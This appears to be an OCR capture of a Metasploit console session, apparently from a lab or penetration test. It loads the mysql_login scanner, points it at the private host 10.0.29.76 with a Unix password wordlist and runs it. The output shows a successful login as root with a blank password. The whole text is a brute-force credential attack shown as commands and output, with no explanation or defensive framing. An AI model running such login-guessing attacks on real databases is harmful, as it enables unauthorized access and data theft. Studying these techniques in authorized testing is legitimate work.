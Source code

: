 ```
Papers: No Results
```

```
msf6 > search mysql_login

Matching Modules
================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  auxiliary/scanner/mysql/mysql_login                   normal  No     MySQL Login Utility


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/mysql/mysql_login

msf6 > use 0
msf6 auxiliary(scanner/mysql/mysql_login) > show options

Module options (auxiliary/scanner/mysql/mysql_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   true             no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             3306             yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          root             no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/mysql/mysql_login) > setg RHOSTS 10.0.29.76
RHOSTS => 10.0.29.76
msf6 auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/mysql/mysql_login) > run

[+] 10.0.29.76:3306       - 10.0.29.76:3306 - Found remote MySQL version 5.5.20
[!] 10.0.29.76:3306       - No active DB -- Credential data will not be saved!
[+] 10.0.29.76:3306       - 10.0.29.76:3306 - Success: 'root:'
[*] 10.0.29.76:3306       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
